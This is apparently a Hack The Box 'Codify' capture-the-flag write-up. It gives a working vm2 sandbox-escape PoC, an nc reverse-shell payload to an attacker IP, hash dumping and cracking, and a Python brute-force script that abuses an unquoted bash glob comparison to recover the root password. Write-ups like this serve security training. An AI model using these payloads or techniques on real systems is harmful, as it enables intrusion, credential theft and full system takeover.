


# Codify
## Enumeration
### Port Scanning
The system got three open ports: 22, 80, 3000:
```
┌──(kali㉿kali)-[~]
└─$ nmap $IP
Starting Nmap 7.94 ( https://nmap.org ) at 2023-11-07 11:02 EST
Nmap scan report for 10.10.11.239
Host is up (0.050s latency).
Not shown: 997 closed tcp ports (conn-refused)
PORT     STATE SERVICE
22/tcp   open  ssh
80/tcp   open  http
3000/tcp open  ppp

Nmap done: 1 IP address (1 host up) scanned in 0.66 seconds

┌──(kali㉿kali)-[~]
└─$ nmap -sV -sC $IP
Starting Nmap 7.94 ( https://nmap.org ) at 2023-11-07 11:06 EST
Nmap scan report for codify.htb (10.10.11.239)
Host is up (0.037s latency).
Not shown: 997 closed tcp ports (conn-refused)
PORT     STATE SERVICE VERSION
22/tcp   open  ssh     OpenSSH 8.9p1 Ubuntu 3ubuntu0.4 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   256 96:07:1c:c6:77:3e:07:a0:cc:6f:24:19:74:4d:57:0b (ECDSA)
|_  256 0b:a4:c0:cf:e2:3b:95:ae:f6:f5:df:7d:0c:88:d6:ce (ED25519)
80/tcp   open  http    Apache httpd 2.4.52
|_http-title: Codify
|_http-server-header: Apache/2.4.52 (Ubuntu)
3000/tcp open  http    Node.js Express framework
|_http-title: Codify
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 9.73 seconds

┌──(kali㉿kali)-[~]
└─$ nmap -p- $IP    
Starting Nmap 7.94 ( https://nmap.org ) at 2023-11-07 11:08 EST
Nmap scan report for codify.htb (10.10.11.239)
Host is up (0.044s latency).
Not shown: 65532 closed tcp ports (conn-refused)
PORT     STATE SERVICE
22/tcp   open  ssh
80/tcp   open  http
3000/tcp open  ppp

Nmap done: 1 IP address (1 host up) scanned in 17.06 seconds

┌──(kali㉿kali)-[~]
└─$ 
```
### HTTP
Port 3000 shows the same webpage as port 80. If we access it, we get an application that runs Node.js code inside a sandbox:


In the _About us_ section is the used software named: [vm2](https://github.com/patriksimek/vm2/releases/tag/3.9.16)

A text in the GitHub repo says that the application should not be used for production because of critical security issues:

_TL;DR The library contains critical security issues and should not be used for production! The maintenance of the project has been discontinued. Consider migrating your code to isolated-vm._

Researching for public exploits leads to the [CVE-2023-30547](https://nvd.nist.gov/vuln/detail/CVE-2023-30547):

_There exists a vulnerability in exception sanitization of vm2 for versions up to 3.9.16, allowing attackers to raise an unsanitized host exception inside `handleException()` which can be used to escape the sandbox and run arbitrary code in host context._

The _About us_ section links also to the version 3.9.16 of vm2. So probably our target uses this vulnerable version.

#### Exploit
We can find the following [PoC](https://gist.github.com/leesh3288/381b230b04936dd4d74aaf90cc8bb244):
```js
const {VM} = require("vm2");
const vm = new VM();

const code = `
err = {};
const handler = {
    getPrototypeOf(target) {
        (function stack() {
            new Error().stack;
            stack();
        })();
    }
};
  
const proxiedErr = new Proxy(err, handler);
try {
    throw proxiedErr;
} catch ({constructor: c}) {
    c.constructor('return process')().mainModule.require('child_process').execSync('id');
}
`

console.log(vm.run(code));
```

Running this inside the editor executes the command on the system:


With that PoC we can use this payload for a reverse shell:
```js
c.constructor('return process')().mainModule.require('child_process').execSync('rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc 10.10.16.90 8081 >/tmp/f');
```

And catch it on our system:
```
┌──(kali㉿kali)-[~]
└─$ nc -lnvp 8081
Listening on 0.0.0.0 8081
Connection received on 10.10.11.239 44172
/bin/sh: 0: can't access tty; job control turned off
$ id
uid=1001(svc) gid=1001(svc) groups=1001(svc)
$ 
```

After that we can stabilize the shell:
```
$ python3 -c 'import pty; pty.spawn("/bin/bash")'
svc@codify:~$ ^Z
zsh: suspended  nc -lnvp 8081
                                                                                                                                                            
┌──(kali㉿kali)-[~]
└─$ stty raw -echo;fg                                                                                                                             148 ⨯ 1 ⚙
[1]  + continued  nc -lnvp 8081

svc@codify:~$ 
svc@codify:~$ export TERM=xterm-256color
svc@codify:~$ stty rows 83 columns 155
svc@codify:~$ 
```

## System enumeration
We are logged in as the user `svc`:
```
svc@codify:~$ id
uid=1001(svc) gid=1001(svc) groups=1001(svc)
svc@codify:~$ ls -al 
total 32
drwxr-x--- 4 svc    svc    4096 Sep 26 10:00 .
drwxr-xr-x 4 joshua joshua 4096 Sep 12 17:10 ..
lrwxrwxrwx 1 svc    svc       9 Sep 14 03:28 .bash_history -> /dev/null
-rw-r--r-- 1 svc    svc     220 Sep 12 17:10 .bash_logout
-rw-r--r-- 1 svc    svc    3771 Sep 12 17:10 .bashrc
drwx------ 2 svc    svc    4096 Sep 12 17:13 .cache
drwxrwxr-x 5 svc    svc    4096 Nov  7 16:05 .pm2
-rw-r--r-- 1 svc    svc     807 Sep 12 17:10 .profile
-rw-r--r-- 1 svc    svc      39 Sep 26 10:00 .vimrc
svc@codify:~$ 
```

But this isn't the user that gives us the user flag. There is another user called `joshua`:
```
svc@codify:~$ ls -al /home/
total 16
drwxr-xr-x  4 joshua joshua 4096 Sep 12 17:10 .
drwxr-xr-x 18 root   root   4096 Oct 31 07:57 ..
drwxrwx---  4 joshua joshua 4096 Nov  7 16:37 joshua
drwxr-x---  4 svc    svc    4096 Sep 26 10:00 svc

svc@codify:~$ id joshua
uid=1000(joshua) gid=1000(joshua) groups=1000(joshua)

svc@codify:~$ cat /etc/passwd
root:x:0:0:root:/root:/bin/bash
daemon:x:1:1:daemon:/usr/sbin:/usr/sbin/nologin
bin:x:2:2:bin:/bin:/usr/sbin/nologin
sys:x:3:3:sys:/dev:/usr/sbin/nologin
sync:x:4:65534:sync:/bin:/bin/sync
games:x:5:60:games:/usr/games:/usr/sbin/nologin
man:x:6:12:man:/var/cache/man:/usr/sbin/nologin
lp:x:7:7:lp:/var/spool/lpd:/usr/sbin/nologin
mail:x:8:8:mail:/var/mail:/usr/sbin/nologin
news:x:9:9:news:/var/spool/news:/usr/sbin/nologin
uucp:x:10:10:uucp:/var/spool/uucp:/usr/sbin/nologin
proxy:x:13:13:proxy:/bin:/usr/sbin/nologin
www-data:x:33:33:www-data:/var/www:/usr/sbin/nologin
backup:x:34:34:backup:/var/backups:/usr/sbin/nologin
list:x:38:38:Mailing List Manager:/var/list:/usr/sbin/nologin
irc:x:39:39:ircd:/run/ircd:/usr/sbin/nologin
gnats:x:41:41:Gnats Bug-Reporting System (admin):/var/lib/gnats:/usr/sbin/nologin
nobody:x:65534:65534:nobody:/nonexistent:/usr/sbin/nologin
_apt:x:100:65534::/nonexistent:/usr/sbin/nologin
systemd-network:x:101:102:systemd Network Management,,,:/run/systemd:/usr/sbin/nologin
systemd-resolve:x:102:103:systemd Resolver,,,:/run/systemd:/usr/sbin/nologin
messagebus:x:103:104::/nonexistent:/usr/sbin/nologin
systemd-timesync:x:104:105:systemd Time Synchronization,,,:/run/systemd:/usr/sbin/nologin
pollinate:x:105:1::/var/cache/pollinate:/bin/false
sshd:x:106:65534::/run/sshd:/usr/sbin/nologin
syslog:x:107:113::/home/syslog:/usr/sbin/nologin
uuidd:x:108:114::/run/uuidd:/usr/sbin/nologin
tcpdump:x:109:115::/nonexistent:/usr/sbin/nologin
tss:x:110:116:TPM software stack,,,:/var/lib/tpm:/bin/false
landscape:x:111:117::/var/lib/landscape:/usr/sbin/nologin
usbmux:x:112:46:usbmux daemon,,,:/var/lib/usbmux:/usr/sbin/nologin
lxd:x:999:100::/var/snap/lxd/common/lxd:/bin/false
dnsmasq:x:113:65534:dnsmasq,,,:/var/lib/misc:/usr/sbin/nologin
joshua:x:1000:1000:,,,:/home/joshua:/bin/bash
svc:x:1001:1001:,,,:/home/svc:/bin/bash
fwupd-refresh:x:114:122:fwupd-refresh user,,,:/run/systemd:/usr/sbin/nologin
_laurel:x:998:998::/var/log/laurel:/bin/false
svc@codify:~$ 
```

### /opt
In the `/opt` directory are interesting folders located:
```
svc@codify:/opt$ ls -al 
total 16
drwxr-xr-x  4 root root 4096 May 30 12:29 .
drwxr-xr-x 18 root root 4096 Oct 31 07:57 ..
drwx--x--x  4 root root 4096 Apr 12  2023 containerd
drwxr-xr-x  2 root root 4096 Nov  2 12:26 scripts
svc@codify:/opt$ 
```

Since `containerd/` is not readable for us, the `scripts` folder contains a MySQL script:
```
svc@codify:/opt$ cd scripts/
svc@codify:/opt/scripts$ ls -al 
total 12
drwxr-xr-x 2 root root 4096 Nov  2 12:26 .
drwxr-xr-x 4 root root 4096 May 30 12:29 ..
-rwxr-xr-x 1 root root  928 Nov  2 12:26 mysql-backup.sh
svc@codify:/opt/scripts$ cat mysql-backup.sh 
#!/bin/bash
DB_USER="root"
DB_PASS=$(/usr/bin/cat /root/.creds)
BACKUP_DIR="/var/backups/mysql"

read -s -p "Enter MySQL password for $DB_USER: " USER_PASS
/usr/bin/echo

if [[ $DB_PASS == $USER_PASS ]]; then
        /usr/bin/echo "Password confirmed!"
else
        /usr/bin/echo "Password confirmation failed!"
        exit 1
fi

/usr/bin/mkdir -p "$BACKUP_DIR"

databases=$(/usr/bin/mysql -u "$DB_USER" -h 0.0.0.0 -P 3306 -p"$DB_PASS" -e "SHOW DATABASES;" | /usr/bin/grep -Ev "(Database|information_schema|performance_schema)")

for db in $databases; do
    /usr/bin/echo "Backing up database: $db"
    /usr/bin/mysqldump --force -u "$DB_USER" -h 0.0.0.0 -P 3306 -p"$DB_PASS" "$db" | /usr/bin/gzip > "$BACKUP_DIR/$db.sql.gz"
done

/usr/bin/echo "All databases backed up successfully!"
/usr/bin/echo "Changing the permissions"
/usr/bin/chown root:sys-adm "$BACKUP_DIR"
/usr/bin/chmod 774 -R "$BACKUP_DIR"
/usr/bin/echo 'Done!'
svc@codify:/opt/scripts$ 
```

The script reads out the file `/root/.creds`. But we can't access it:
```
svc@codify:/opt/scripts$ cat /root/.creds
cat: /root/.creds: Permission denied
svc@codify:/opt/scripts$ 
```

So this is maybe more relevant later.

### /var/www
Inside the folder `/var/www` are the following directories:
```
svc@codify:/var/www/contact$ ls -al /var/www/
total 20
drwxr-xr-x  5 root root 4096 Sep 12 17:40 .
drwxr-xr-x 13 root root 4096 Oct 31 07:57 ..
drwxr-xr-x  3 svc  svc  4096 Nov  7 16:37 contact
drwxr-xr-x  4 svc  svc  4096 Sep 12 17:46 editor
drwxr-xr-x  2 svc  svc  4096 Apr 12  2023 html
svc@codify:/var/www/contact$ 
```

`editor/` should be related to the `vm2` application. `html/` is the default Apache2 website. But `contact/` isn't identifiable. Let's check it out.

Inhere are several files:
```
svc@codify:/var/www/contact$ ls -al 
total 120
drwxr-xr-x 3 svc  svc   4096 Nov  7 16:37 .
drwxr-xr-x 5 root root  4096 Sep 12 17:40 ..
-rw-rw-r-- 1 svc  svc   4377 Apr 19  2023 index.js
-rw-rw-r-- 1 svc  svc    268 Apr 19  2023 package.json
-rw-rw-r-- 1 svc  svc  77131 Apr 19  2023 package-lock.json
drwxrwxr-x 2 svc  svc   4096 Apr 21  2023 templates
-rw-r--r-- 1 svc  svc  20480 Sep 12 17:45 tickets.db
svc@codify:/var/www/contact$ 
```

### SQLite
Interesting is the file `tickets.db`, which is a SQLite database:
```
svc@codify:/var/www/contact$ file tickets.db 
tickets.db: SQLite 3.x database, last written using SQLite version 3037002, file counter 17, database pages 5, cookie 0x2, schema 4, UTF-8, version-valid-for 17
svc@codify:/var/www/contact$ 
```

We can access this database from the CLI:
```
svc@codify:/var/www/contact$ sqlite3 tickets.db 
SQLite version 3.37.2 2022-01-06 13:25:41
Enter ".help" for usage hints.
sqlite> 
```

And can find a user hash of the user `joshua`
```
sqlite> .tables
tickets  users  

sqlite> select * from users;
3|joshua|$2a$12$SOn8Pf6z8fO/nVsNbAAequ/P6vLRJJl7gCUEiYBU2iLHn4G/p/Zw2

sqlite> select * from tickets;
1|Tom Hanks|Need networking modules|I think it would be better if you can implement a way to handle network-based stuff. Would help me out a lot. Thanks!|open
2|Joe Williams|Local setup?|I use this site lot of the time. Is it possible to set this up locally? Like instead of coming to this site, can I download this and set it up in my own computer? A feature like that would be nice.|open
sqlite> 
```

### Hash cracking
Related to https://hashes.com/en/tools/hash_identifier this is an `bcrypt $2*$, Blowfish (Unix)` hash. Let's try to crack it:
```
┌──(kali㉿kali)-[~/Desktop/hackthebox/codify]
└─$ cat hash
$2a$12$SOn8Pf6z8fO/nVsNbAAequ/P6vLRJJl7gCUEiYBU2iLHn4G/p/Zw2

┌──(kali㉿kali)-[~/Desktop/hackthebox/codify]
└─$ john --wordlist=/home/kali/Desktop/tools/rockyou.txt hash
Using default input encoding: UTF-8
Loaded 1 password hash (bcrypt [Blowfish 32/64 X3])
Cost 1 (iteration count) is 4096 for all loaded hashes
Will run 2 OpenMP threads
Press 'q' or Ctrl-C to abort, almost any other key for status
spongebob1       (?)     
1g 0:00:01:06 DONE (2023-11-07 12:04) 0.01502g/s 20.28p/s 20.28c/s 20.28C/s incubus..madonna
Use the "--show" option to display all of the cracked passwords reliably
Session completed. 

┌──(kali㉿kali)-[~/Desktop/hackthebox/codify]
└─$ 
```

And we got the password `spongebob1`.

### SSH Login
With that credentials we can log in via SSH:
```
┌──(kali㉿kali)-[~/Desktop/hackthebox/codify]
└─$ ssh joshua@10.10.11.239   
The authenticity of host '10.10.11.239 (10.10.11.239)' can't be established.
ED25519 key fingerprint is SHA256:Q8HdGZ3q/X62r8EukPF0ARSaCd+8gEhEJ10xotOsBBE.
This key is not known by any other names.
Are you sure you want to continue connecting (yes/no/[fingerprint])? yes
Warning: Permanently added '10.10.11.239' (ED25519) to the list of known hosts.
joshua@10.10.11.239's password: 
Welcome to Ubuntu 22.04.3 LTS (GNU/Linux 5.15.0-88-generic x86_64)

 * Documentation:  https://help.ubuntu.com
 * Management:     https://landscape.canonical.com
 * Support:        https://ubuntu.com/advantage

  System information as of Tue Nov  7 05:06:17 PM UTC 2023

  System load:                      1.56298828125
  Usage of /:                       69.1% of 6.50GB
  Memory usage:                     29%
  Swap usage:                       0%
  Processes:                        279
  Users logged in:                  0
  IPv4 address for br-030a38808dbf: 172.18.0.1
  IPv4 address for br-5ab86a4e40d0: 172.19.0.1
  IPv4 address for docker0:         172.17.0.1
  IPv4 address for eth0:            10.10.11.239
  IPv6 address for eth0:            dead:beef::250:56ff:feb9:8933


Expanded Security Maintenance for Applications is not enabled.

0 updates can be applied immediately.

Enable ESM Apps to receive additional future security updates.
See https://ubuntu.com/esm or run: sudo pro status


The list of available updates is more than a week old.
To check for new updates run: sudo apt update

joshua@codify:~$ 
```

### User flag
Once logged in as `joshua` we can find the user flag:
```
joshua@codify:~$ ls -al 
total 32
drwxrwx--- 3 joshua joshua 4096 Nov  2 12:22 .
drwxr-xr-x 4 joshua joshua 4096 Sep 12 17:10 ..
lrwxrwxrwx 1 root   root      9 May 30 12:08 .bash_history -> /dev/null
-rw-r--r-- 1 joshua joshua  220 Apr 21  2023 .bash_logout
-rw-r--r-- 1 joshua joshua 3771 Apr 21  2023 .bashrc
drwx------ 2 joshua joshua 4096 Sep 14 14:44 .cache
-rw-r--r-- 1 joshua joshua  807 Apr 21  2023 .profile
-rw-r----- 1 root   joshua   33 Nov  7 17:05 user.txt
-rw-r--r-- 1 joshua joshua   39 Sep 14 14:45 .vimrc
joshua@codify:~$ cat user.txt 
7e5bb1e9201876cdff2b74d7c4d1dba9
joshua@codify:~$ 
```

## Privilege escalation
### sudo rights
The user has the sudo right to execute the earlier found script `/opt/scripts/mysql-backup.sh`:
```
joshua@codify:~$ sudo -l
[sudo] password for joshua: 
Matching Defaults entries for joshua on codify:
    env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin, use_pty

User joshua may run the following commands on codify:
    (root) /opt/scripts/mysql-backup.sh
joshua@codify:~$ 
```

To remember, this was the script:
```bash
#!/bin/bash
DB_USER="root"
DB_PASS=$(/usr/bin/cat /root/.creds)
BACKUP_DIR="/var/backups/mysql"

read -s -p "Enter MySQL password for $DB_USER: " USER_PASS
/usr/bin/echo

if [[ $DB_PASS == $USER_PASS ]]; then
        /usr/bin/echo "Password confirmed!"
else
        /usr/bin/echo "Password confirmation failed!"
        exit 1
fi

/usr/bin/mkdir -p "$BACKUP_DIR"

databases=$(/usr/bin/mysql -u "$DB_USER" -h 0.0.0.0 -P 3306 -p"$DB_PASS" -e "SHOW DATABASES;" | /usr/bin/grep -Ev "(Database|information_schema|performance_schema)")

for db in $databases; do
    /usr/bin/echo "Backing up database: $db"
    /usr/bin/mysqldump --force -u "$DB_USER" -h 0.0.0.0 -P 3306 -p"$DB_PASS" "$db" | /usr/bin/gzip > "$BACKUP_DIR/$db.sql.gz"
done

/usr/bin/echo "All databases backed up successfully!"
/usr/bin/echo "Changing the permissions"
/usr/bin/chown root:sys-adm "$BACKUP_DIR"
/usr/bin/chmod 774 -R "$BACKUP_DIR"
/usr/bin/echo 'Done!'
```

The script reads a password from the file `/root/.creds` and compares it to the users input. If it is correct, it creates a backup of some MySQL databases. But at this moment we have no clue of the password:
```
joshua@codify:~$ sudo /opt/scripts/mysql-backup.sh 
Enter MySQL password for root: 
Password confirmation failed!
joshua@codify:~$ 
```

### Script vulnerability
Somehow this script has to be vulnerable to read out the password. We can't access the variable `DB_PASS` because the process is obviously run as root user.

After a bit of research, I found a tool called [ShellCheck](https://github.com/koalaman/shellcheck). This tool can find bugs in bash scripts.

If we check the script with the tool we get an interesting warning:
```
┌──(kali㉿kali)-[~/Desktop/hackthebox/codify]
└─$ shellcheck mysql-backup.sh 

In mysql-backup.sh line 6:
read -s -p "Enter MySQL password for $DB_USER: " USER_PASS
^--^ SC2162 (info): read without -r will mangle backslashes.


In mysql-backup.sh line 9:
if [[ $DB_PASS == $USER_PASS ]]; then
                  ^--------^ SC2053 (warning): Quote the right-hand side of == in [[ ]] to prevent glob matching.

For more information:
  https://www.shellcheck.net/wiki/SC2053 -- Quote the right-hand side of == i...
  https://www.shellcheck.net/wiki/SC2162 -- read without -r will mangle backs...
                                                                                                                                                           
┌──(kali㉿kali)-[~/Desktop/hackthebox/codify]
└─$
```

The tool also provides detailed information of this issue: https://www.shellcheck.net/wiki/SC2053

The line
```bash
if [[ $DB_PASS == $USER_PASS ]]; then
```
doesn't use quotes around the right-hand side parameter. This has the consequences, that we can use glob patterns to fulfil the condition. Meaning that we can enter a wildcard as password:
```
joshua@codify:~$ echo '*' | sudo /opt/scripts/mysql-backup.sh 

Password confirmed!
mysql: [Warning] Using a password on the command line interface can be insecure.
Backing up database: mysql
mysqldump: [Warning] Using a password on the command line interface can be insecure.
-- Warning: column statistics not supported by the server.
mysqldump: Got error: 1556: You can't use locks with log tables when using LOCK TABLES
mysqldump: Got error: 1556: You can't use locks with log tables when using LOCK TABLES
Backing up database: sys
mysqldump: [Warning] Using a password on the command line interface can be insecure.
-- Warning: column statistics not supported by the server.
All databases backed up successfully!
Changing the permissions
Done!
joshua@codify:~$ 
```

So we can successfully run the script. But we still have no chance to grab the whole password. Also, we can't access the created backup.

But we can guess the characters of the password using the wildcard. E.g. the first character is `a`, a valid input would be `a*`. If we guessed that character we can guess the second one and so on. Until we got the whole password.

### Brute forcing
We can automatize this brute forcing process with a python script. The script tries every character followed by the wildcard. If the program returns `Password confirmed!` we got a valid character of the password and can guess the next one.

A possible solution can look like this:
```python
import subprocess

chars = "abcdefghijklmnopqrstuvwxyzABCDEFGHIJKLMNOPQRSTUVWXYZ12345676890"
password = ""

while True:
    for char in chars:
        cmd = f"echo '{password}{char}*' | sudo /opt/scripts/mysql-backup.sh"
        out = subprocess.run(cmd, shell=True, text=True, stdout=subprocess.PIPE, stderr=subprocess.PIPE).stdout

        if "Password confirmed!" in out:
            password += char
            print(f"Partial: {password}")
            break

    else: break

print(f"Password found: {password}")
```

If we run the script on the target we find the password:
```
joshua@codify:/tmp$ python3 brute.py 
Partial: k
Partial: kl
Partial: klj
Partial: kljh
Partial: kljh1
Partial: kljh12
Partial: kljh12k
Partial: kljh12k3
Partial: kljh12k3j
Partial: kljh12k3jh
Partial: kljh12k3jha
Partial: kljh12k3jhas
Partial: kljh12k3jhask
Partial: kljh12k3jhaskj
Partial: kljh12k3jhaskjh
Partial: kljh12k3jhaskjh1
Partial: kljh12k3jhaskjh12
Partial: kljh12k3jhaskjh12k
Partial: kljh12k3jhaskjh12kj
Partial: kljh12k3jhaskjh12kjh
Partial: kljh12k3jhaskjh12kjh3
Password found: kljh12k3jhaskjh12kjh3
joshua@codify:/tmp$ 
```

### Root flag
My first guess was to use this password as password of the root user:
```
joshua@codify:/tmp$ su 
Password: 
root@codify:/tmp# id
uid=0(root) gid=0(root) groups=0(root)
root@codify:/tmp# 
```
And it was correct. We are root.

We can now read out the root flag:
```
root@codify:/tmp# cd /root/
root@codify:~# ls -al 
total 40
drwx------  5 root root 4096 Sep 26 09:35 .
drwxr-xr-x 18 root root 4096 Oct 31 07:57 ..
lrwxrwxrwx  1 root root    9 Sep 14 03:26 .bash_history -> /dev/null
-rw-r--r--  1 root root 3106 Oct 15  2021 .bashrc
-rw-r--r--  1 root root   22 May  8  2023 .creds
drwxr-xr-x  3 root root 4096 Sep 26 09:35 .local
lrwxrwxrwx  1 root root    9 Sep 14 03:34 .mysql_history -> /dev/null
-rw-r--r--  1 root root  161 Jul  9  2019 .profile
-rw-r-----  1 root root   33 Nov  9 16:11 root.txt
drwxr-xr-x  4 root root 4096 Sep 12 16:56 scripts
drwx------  2 root root 4096 Sep 14 03:31 .ssh
-rw-r--r--  1 root root   39 Sep 14 03:26 .vimrc
root@codify:~# cat root.txt 
b15309f89929081fd9e400f7e571cee3
root@codify:~#
```